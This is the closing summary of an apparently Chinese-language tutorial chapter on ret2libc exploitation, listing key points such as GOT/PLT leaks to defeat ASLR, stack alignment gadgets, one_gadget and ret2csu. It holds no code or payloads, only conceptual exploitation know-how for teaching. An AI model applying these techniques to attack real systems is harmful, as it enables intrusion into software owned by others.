### 7.14 总结

ret2libc 是二进制安全中最基础也最重要的技术，掌握它需要理解以下核心要点：

1. **理解调用约定**：32 位参数在栈上，64 位前 6 个参数在寄存器中
2. **掌握信息泄露**：GOT/PLT 泄露是绕过 ASLR 的标准方法
3. **注意栈对齐**：64 位下 `system()` 可能需要 `ret` gadget 对齐
4. **善用 one_gadget**：简化 payload，减少 gadget 需求
5. **活用 ret2csu**：当二进制中 gadget 不足时的通用方案
6. **验证每一步**：用 GDB 调试确认地址、寄存器、栈布局都正确

从 ret2libc 出发，可以延伸到 SROP、ret2dlresolve、JOP 等更高级的利用技术。扎实掌握 ret2libc 的原理和实践，是通往高级漏洞利用的必经之路。
